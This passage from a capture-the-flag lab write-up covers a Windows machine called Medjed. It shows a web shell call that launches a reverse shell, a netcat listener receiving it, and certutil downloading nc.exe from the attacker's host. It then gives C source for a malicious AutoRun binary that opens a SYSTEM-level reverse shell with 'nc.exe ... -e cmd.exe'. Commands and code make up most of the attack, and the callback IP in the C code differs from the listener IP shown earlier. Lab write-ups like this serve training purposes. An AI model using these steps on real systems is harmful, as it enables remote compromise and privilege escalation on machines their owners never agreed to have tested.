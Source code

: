 ~~~shell
listening on [any] 8000 ...
~~~
~~~shell
http://192.168.182.127:45332/shell.php?cmd=reverseshell.exe
~~~
And I recieved my initial foothold on my listener!
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8000
listening on [any] 8000 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.182.127] 50699
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs>
~~~

# Privilege Escalation

I ran a Privilege Escalation enumeration scan using winPEAS and found an AutoRun binary bd.exe our user has write permissions over.

![Medjed](/assets/img/MedjedPG(17).png)

As discussed in this [exploit](https://www.exploit-db.com/exploits/48789), we can overwrite this binary with our own malicious application, we will generate a reverse shell and then reboot the computer so when the application runs on boot (AutoRun), it will run with root (system) permissions and therefore our malicious binary will run with root (system) permissions

I first transferred nc.exe (netcat) to the target for the creation of the shell
~~~shell
C:\xampp\htdocs>certutil.exe -urlcache -split -f "http://192.168.45.167/nc.exe"
certutil.exe -urlcache -split -f "http://192.168.45.167/nc.exe"
****  Online  ****
  0000  ...
  96d8
CertUtil: -URLCache command completed successfully.
~~~
I then created the malicious binary on my attack machine and cross-compiled it to an .exe that works on windows
~~~c
vi admin.c
#include <windows.h>
#include <winbase.h>
int main(void){
	system("C:\\xampp\\htdocs\\nc.exe 192.168.45.233 445 -e cmd.exe");
	WinExec("C:\\bd\\bd.service.exe", 0);
return 0;
}
~~~
~~~shell
┌──(kali㉿kali)-[~/Desktop/Medjed]
~~~